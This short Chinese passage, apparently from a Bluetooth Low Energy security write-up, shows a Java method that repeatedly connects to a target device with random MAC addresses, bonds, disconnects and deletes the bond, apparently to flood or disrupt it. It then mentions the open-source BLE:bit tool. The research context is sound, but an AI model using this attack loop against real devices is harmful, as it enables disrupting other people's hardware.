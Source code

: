 使用定制 SDK 和定制硬件的攻击只用了不到 5 行代码就完成了。整个程序不到 100 行代码。

```
private static void startNoricAttack(CEController ce) throws Exception
	{
		for(int i=0; i<100; i++)
		{
                        selectRandomMac(); ce.connect(target, ConnectionTypesCommon.AddressType.RANDOM_STATIC_ADDR);
			ce.bondNow(true);
			try {Thread.sleep(100);}catch(InterruptedException iex) {}
			ce.disconnect(19);
			int peer_id = getPeerId();
			ce.deletePeerBond(peer_id);
		}
	}
```

更新:我创建了这个工具的一个精简版本，叫做 BLE:bit。它是开源和开放硬件的。可以在这里找到: **blebit.io**